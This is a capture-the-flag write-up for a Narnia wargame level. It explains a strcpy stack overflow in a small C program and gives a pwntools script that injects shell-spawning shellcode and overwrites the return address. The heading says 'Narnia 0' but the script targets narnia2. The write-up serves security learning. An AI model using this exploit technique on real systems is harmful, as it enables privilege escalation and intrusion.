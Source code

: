 # Narnia 0

## C File

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```


## Approach

The first thing we can see when looking at the code is that the `strcpy` is unsafe. If `argv[1]` is larger than the buffer this will overflow onto the next items on the stack

This means we can rewrite the return address and jump somewhere

Lets set the return address to the `buf` variable and fill it with shellcode that will be executed

## Solution

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
payload = asm(shellcraft.setresuid() + shellcraft.sh())
payload += b'A' * (132-len(payload))
payload += p32(0xffffd4ec)
#p = gdb.debug(["/narnia/narnia2", payload], gdbscript="source /opt/gef/gdbinit.py")
p = process(["/narnia/narnia2", payload])
p.interactive()
```

First we need to find the offset. We can use `pwn cyclic` and pass that as our argument and use gdb to find out what address it jumps to

Doing that we get an adress of `0x62616169` which we can look up with `pwn cyclic -l 0x62616169` to be an offset of 132

So now we need to craft a payload in the form of shellcode + rest of the overflow + address to buf

Then we send the payload, get our shell, and open the flag

## Conclusion

Be very careful with C string functions. Most do not check for size and can result in overflowing the stack or heap.

Use functions that take in size like `strncpy` instead to avoid overflowing
